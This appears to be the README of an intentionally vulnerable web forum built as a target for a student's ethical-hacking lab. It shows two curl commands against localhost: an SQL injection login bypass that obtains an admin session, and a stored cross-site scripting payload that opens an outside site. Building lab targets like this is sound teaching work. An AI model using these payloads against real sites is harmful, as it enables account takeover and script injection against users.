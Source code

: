 # Vulnerable Forum
This is a vulnerable web forum to act as dummy application to be the punching bag for whilst doing my ethical hacking lab for class.

## Attack

Get an admin session via SQL injection. 
```shell
curl -X POST localhost:4567/login -d "username=' or ''='&password=' or ''='" --cookie "cookies.txt" --cookie-jar "cookies.txt"
```

Store some malicious JS.
```shell
curl -X POST localhost:4567/posts -d "title=Hacked&content=<script>window.open('maliciouswebsite.com');</script>" --cookie "cookies.txt" --cookie-jar "cookies.txt"
```

???

Profit.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).
